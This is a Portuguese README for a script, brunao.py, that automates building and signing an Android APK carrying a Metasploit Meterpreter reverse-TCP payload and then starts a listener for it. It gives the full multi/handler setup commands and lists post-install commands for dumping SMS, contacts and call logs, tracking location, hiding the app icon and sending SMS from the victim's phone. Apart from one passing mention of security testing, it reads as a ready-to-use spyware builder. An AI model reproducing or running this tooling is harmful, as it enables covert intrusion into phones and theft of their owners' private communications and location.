 # Script brunao.py

Este script foi desenvolvido para automatizar várias etapas de testes e manipulações no Metasploit Framework e no Android. Ele realiza as seguintes tarefas:

- Atualiza o Metasploit Framework
- Gera um payload para Android
- Descompila e recompila o APK gerado
- Atualiza a versão do APK para Android 13
- Assina e otimiza o APK
- Inicia o listener do Meterpreter para conexões

## Funcionalidades

### 1. Atualização do Metasploit Framework
O script começa atualizando o Metasploit Framework e seu Linux todo para garantir que você esteja usando a versão mais recente. Durante a execução, ele verifica a versão instalada e a atualiza automaticamente se necessário.

### 2. Geração do Payload Android
O script gera um payload para Android e o salva como um arquivo APK, pronto para ser utilizado em testes de segurança.

### 3. Descompilação do APK
O APK gerado é descompilado usando a ferramenta Apktool, permitindo que o conteúdo seja acessado e modificado.

### 4. Atualização para Android 13
Após a descompilação, o script atualiza a versão do APK para Android 13, garantindo que o arquivo gerado seja compatível com a versão mais recente do sistema operacional.

### 5. Recompilação e Assinatura do APK
O APK modificado é recompilado e assinado digitalmente usando um keystore, o que permite sua execução em dispositivos Android.

### 6. Início do Listener do Meterpreter
Por fim, o script inicia o listener do Meterpreter, configurando a porta de escuta e esperando a conexão do dispositivo.

## Requisitos

- **Python 3**: O script foi desenvolvido para Python 3.
- **Metasploit Framework**: O Metasploit Framework deve estar instalado no sistema para a execução do script.
- **Apktool**: Usado para descompilar e recompilar o APK.
- **Keystore**: Necessário para assinar o APK gerado.

## Como Usar

1. Clone este repositório ou baixe o arquivo `brunao.py`.
2. Certifique-se de que o Metasploit Framework, Apktool e o Python 3 estão corretamente instalados no seu sistema.
3. Execute o script com o seguinte comando:

    ```bash
    sudo python3 brunao.py -r
    ```

4. Durante a execução, o script pedirá algumas informações, como a porta de destino para o listener (LPORT).
5. Após a execução bem-sucedida, você terá o APK assinado e otimizado pronto para ser utilizado.

## Exemplos de Uso

- **Iniciar o script**:

    ```bash
    sudo python3 brunao.py -r
    ```
  <h3>Quando tudo tiver compilado vai pedir uma senha a senha é: password</h3>

    O script vai iniciar o processo automaticamente e pedirá que você forneça as informações necessárias, como a porta (LPORT).

## Contribuições

## Sinta-se à vontade para contribuir com melhorias ou correções. Caso encontre problemas, por favor, abra uma issue no repositório.

<br>
----------------------------------------------//-------------------------------//-------------------------------------

## Comandos específicos para Android

-activity_start: Inicia uma atividade Android a partir de uma string Uri.

-check_root: Verifica se o dispositivo Android é root.

-dump_calllog: Obtém o histórico de chamadas.

-dump_contacts: Obtém a lista de contatos.

-dump_sms: Obtém as mensagens SMS.

-geolocate: Obtém a localização atual usando geolocalização.

-hide_app_icon: Oculta o ícone do aplicativo do lançador.

-interval_collect: Gerencia a coleta de dados em intervalos.

-send_sms: Envia SMS do dispositivo alvo.

-sqlite_query: Consulta um banco de dados SQLite no armazenamento.

-wakelock: Habilita ou desabilita o Wakelock.

-wlan_geolocate: Obtém a localização usando informações de WLAN.


## Iniciar coleta de Wi-Fi:


Copiar código
interval_collect -a start -c wifi
Pausar a coleta de localização geográfica:


Copiar código
interval_collect -a pause -c geo
Exibir os dados coletados de torres de celular:


Copiar código
interval_collect -a dump -c cell


## (depois que instala o apk use sempre esse) Se você quiser iniciar o listener manualmente, execute o seguinte comando no terminal:


msfconsole
E, após carregar o Metasploit, configure o listener com o comando:


use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST [IP_LOCAL]
set LPORT [PORTA]
exploit
Troque [IP_LOCAL] pelo seu IP local e [PORTA] pela porta que você configurou (como a porta 4444).

## se querer gerar de novo o apk apague os arquivos como pastas e apk's gerado

use: 
       sudo rm -rf Brunao_kyti
       sudo rm -rf brunao_kyti
       sudo rm -rf brunao_kyti.apk
       sudo rm -rf brunao_kyti_final.apk
       sudo rm -rf brunao_kyti_signed.apk


## depois de gerar o apk instaler o brunao_kyti_final.apk, guarde e use o msconsole. 

